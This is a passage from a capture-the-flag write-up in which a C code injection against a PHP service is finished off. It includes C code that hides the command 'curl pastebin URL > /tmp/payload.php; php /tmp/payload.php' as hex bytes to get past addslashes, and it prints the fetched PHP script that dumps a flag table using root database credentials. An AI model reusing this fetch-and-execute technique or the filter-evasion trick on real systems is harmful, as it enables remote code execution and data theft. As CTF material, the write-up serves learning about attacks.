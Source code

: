#### One more small roadblock

With C code execution, we basically won!.\
However, there is one small roadblock remaining.\
Remember the `addslashes` method that is used on the input url we use to inject our code?\
This means we cannot really include any quotes in our injected C code.\
What we finally opted for is to write a PHP file that queries a database and then execute it using `system`.

So the C code we want to execute is the following:

```c
#include <stdlib.h>
char buf[] = {
    // curl https://pastebin.com/raw/LA14vSiK
    0x63, 0x75, 0x72, 0x6c, 0x20, 0x68, 0x74, 0x74, 0x70, 0x73, 0x3a, 0x2f, 0x2f, 0x70, 0x61, 0x73, 0x74, 0x65, 0x62, 0x69, 0x6e, 0x2e, 0x63, 0x6f, 0x6d, 0x2f, 0x72, 0x61, 0x77, 0x2f, 0x4c, 0x41, 0x31, 0x34, 0x76, 0x53, 0x69, 0x4b,
    // >
    0x20, 0x3e, 0x20,
    // /tmp/payload.php
    0x2f, 0x74, 0x6d, 0x70, 0x2f, 0x70, 0x61, 0x79, 0x6c, 0x6f, 0x61, 0x64, 0x2e, 0x70, 0x68, 0x70,
    // ;
    0x3b, 0x20,
    // php /tmp/payload.php
    0x70, 0x68, 0x70, 0x20, 0x2f, 0x74, 0x6d, 0x70, 0x2f, 0x70, 0x61, 0x79, 0x6c, 0x6f, 0x61, 0x64, 0x2e, 0x70, 0x68, 0x70
    // terminating nullbyte
    0 
};
// curl https://pastebin.com/raw/LA14vSiK > /tmp/payload.php; php /tmp/payload.php;
system(buf);
```

https://pastebin.com/raw/LA14vSiK:

```php
<?php
set_time_limit(0);
$host = 'db';
$username = 'root';
$password = 'realworldctf';
$database = 'web';
$dbc = mysqli_connect($host, $username, $password, $database);
$sql = "SELECT * FROM flag";
$stmt = $dbc->prepare($sql);
$stmt->execute();
$result = $stmt->get_result();
$row = $result->fetch_assoc();
echo json_encode($row);
?>
```

#### A last roadblock

